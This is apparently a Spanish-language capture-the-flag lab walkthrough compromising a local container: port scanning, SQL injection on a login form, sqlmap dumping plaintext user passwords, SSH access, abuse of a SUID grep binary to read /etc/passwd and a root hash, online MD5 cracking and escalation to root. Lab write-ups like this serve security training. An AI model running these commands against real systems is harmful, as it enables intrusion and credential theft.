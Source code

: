 ```bash
nmap -sV -O -sC -p- 172.17.0.2
```
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)  
| ssh-hostkey:    
|   256 08:ba:95:95:10:20:1e:54:19:c3:33:a8:75:dd:f8:4d (ECDSA)  
|_  256 1e:22:63:40:c9:b9:c5:6f:c2:09:29:84:6f:e7:0b:76 (ED25519)  
80/tcp open  http    Apache httpd 2.4.61 ((Debian))  
|_http-server-header: Apache/2.4.61 (Debian)  
|_http-title: test page

buscamos directorios:
```bash
gobuster dir -w /home/eduard/wordList/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://172.17.0.2

/css                  (Status: 301) [Size: 306] [--> http://172.17.0.2/css/]  
/server-status        (Status: 403) [Size: 275]
```

dentro del indice de la  pagina, encontramos un login. comprobamos si es vulnerable a sql injection
```
user
'
```

```bash
**Fatal error**: Uncaught mysqli_sql_exception: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1 in /var/www/html/login.php:26 Stack trace: #0 /var/www/html/login.php(26): mysqli->query() #1 {main} thrown in **/var/www/html/login.php** on line **26**
```
vamos a usar sqlmap:
```bash
sqlmap -u http://172.17.0.2/login.html --forms --dbs -batch

available databases [5]:  
[*] information_schema  
[*] mysql  
[*] performance_schema  
[*] sys  
[*] users
```

para ver el contenido:

```bash
sqlmap -u http://172.17.0.2/login.html --forms -D users --tables -batch

Database: users  
[1 table]  
+----------+  
| usuarios |  
+----------+
```

vamos a ver el contenido de esa tabla
```bash
sqlmap -u http://172.17.0.2/login.html --forms -D users -T usuarios -columns -batch


Table: usuarios  
[3 columns]  
+----------+--------------+  
| Column   | Type         |  
+----------+--------------+  
| id       | int(11)      |  
| password | varchar(255) |  
| username | varchar(255) |  
+----------+--------------+


sqlmap -u http://172.17.0.2/login.html --forms -D users -T usuarios -C id,username,password -dump -batch

Database: users  
Table: usuarios  
[3 entries]  
+----+----------+---------------+  
| id | username | password      |  
+----+----------+---------------+  
| 1  | paco     | $paco$123     |  
| 2  | pepe     | P123pepe3456P |  
| 3  | juan     | jjuuaann123   |  
+----+----------+---------------+
```
ya tenemos usuarios y contraseña. Vamos a intentar entrar via ssh
Solo permite entrar con pepe
```bash
ssh pepe@172.17.0.2
# P123pepe3456P
```

escalada de privilegios
```bash
find / -perm -4000 2>/dev/null    

/usr/bin/chfn  
/usr/bin/chsh  
/usr/bin/gpasswd  
/usr/bin/grep  
/usr/bin/ls  
/usr/bin/mount  
/usr/bin/newgrp  
/usr/bin/passwd  
/usr/bin/su  
/usr/bin/umount
```
llama la intención grep y ls

```bash
pepe@4949c1625ffe:/$ ls root  
pass.hash
```
podemos ver que dentro del directorio root hay un archivo interesante
vamos a ver el contenido con grep

```bash
grep '' /etc/passwd 

root:x:0:0:root:/root:/bin/bash  
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin  
bin:x:2:2:bin:/bin:/usr/sbin/nologin  
sys:x:3:3:sys:/dev:/usr/sbin/nologin  
sync:x:4:65534:sync:/bin:/bin/sync  
games:x:5:60:games:/usr/games:/usr/sbin/nologin  
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin  
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin  
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin  
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin  
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin  
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin  
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin  
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin  
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin  
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin  
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin  
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin  
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin  
mysql:x:100:101:MySQL Server,,,:/nonexistent:/bin/false  
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin  
messagebus:x:101:102::/nonexistent:/usr/sbin/nologin  
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin  
pepe:x:1000:1000::/home/pepe:/bin/bash
```

```bash
grep '' /root/pass.hash  
e43833c4c9d5ac444e16bb94715a75e4
```
parece ser el hash de root

usamos hashidentifier para saber el tipo de hash

```bash
Possible Hashs:  
[+] MD5
```

vamos a usar https://www.md5online.org/md5-decrypt.html#google_vignette para desencriptarlo

y la contraseña es `spongebob34`

ahora vamos a usarla para convertirnos en root
```bash
su -
spongebob34

whoami
# root
```
